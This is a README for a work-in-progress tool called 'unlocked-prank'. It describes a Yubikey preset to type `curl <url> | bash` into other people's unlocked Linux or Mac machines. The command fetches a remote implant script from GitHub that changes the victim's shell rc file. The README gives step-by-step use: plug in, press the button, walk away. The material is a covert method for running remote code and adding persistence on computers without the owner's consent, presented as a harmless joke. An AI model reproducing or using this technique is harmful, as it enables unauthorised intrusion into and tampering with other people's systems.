 # unlocked-prank
A harmless prank for those poor buggers who leave their Linux or Mac machines unlocked.

** not yet finished, just here as a work in progress **

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl <url-shortened> | bash`

The URL shortener is used as the Yubikey has a limit of 64 characters in it's static password mode.  The shortened URL should point to

`https://raw.githubusercontent.com/auraltension/unlocked-prank/master/implant.sh`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
linux, and then the shell used by the user and implant a fun prank into their shell rc.
